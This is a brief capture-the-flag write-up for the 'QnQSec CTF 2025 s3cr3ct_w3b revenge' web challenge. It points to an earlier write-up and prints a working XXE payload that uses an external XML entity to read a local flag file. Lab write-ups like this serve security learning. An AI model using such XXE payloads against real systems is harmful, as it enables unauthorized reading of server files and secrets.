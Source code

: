 # QnQSec CTF 2025 - s3cr3ct_w3b revenge
Exactly the same with `s3cr3ct_w3b` :Đ

[**QnQSec CTF 2025 — s3cr3ct_w3b (GitHub)**](https://github.com/trannghiach/CTF-Writeups/blob/main/QnQSec%20CTF%202025/Web/s3cr3ct_w3b.md)

Change your payload to:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///var/flags/flag.txt"> ]>
<data>&xxe;</data>
```

Because they changed the Dockerfile
